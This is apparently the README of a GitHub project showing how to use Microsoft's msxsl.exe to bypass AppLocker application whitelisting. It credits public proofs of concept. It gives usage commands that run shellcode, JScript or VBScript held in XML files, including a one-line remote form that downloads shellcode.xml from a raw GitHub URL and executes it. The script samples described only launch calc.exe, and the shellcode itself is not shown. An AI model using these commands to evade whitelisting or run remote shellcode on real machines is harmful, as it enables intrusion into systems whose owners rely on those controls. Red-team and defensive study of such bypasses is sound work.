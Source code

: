 # Use-msxsl-to-bypass-AppLocker

Learn from Casey Smith@subTee

https://twitter.com/subTee/status/877616321747271680

### Usage:

	msxsl.exe argv1.xml shellcode.xml/JScript.xml/VBScript.xml
	
	or
	
	msxsl.exe shellcode.xml/JScript.xml/VBScript.xml shellcode.xml/JScript.xml/VBScript.xml
	
	or remote execution(Evi1cg told me)，like this:
	
	msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml

### shellcode.xml:

Use msxsl to run shellcode.

Combine Casey Smith's msxsl POC and Cn33liz's StarFighters.

Link:

	https://gist.github.com/subTee/d9380299ff35738723cb44f230ab39a1   
	https://github.com/Cn33liz/StarFighters/blob/master/StarFighter.js

### JScript.xml:

Use JScript to run calc.exe

From: https://gist.github.com/subTee/d9380299ff35738723cb44f230ab39a1#file-script-xsl

### VBScript.xml:

Use VBScript to run calc.exe


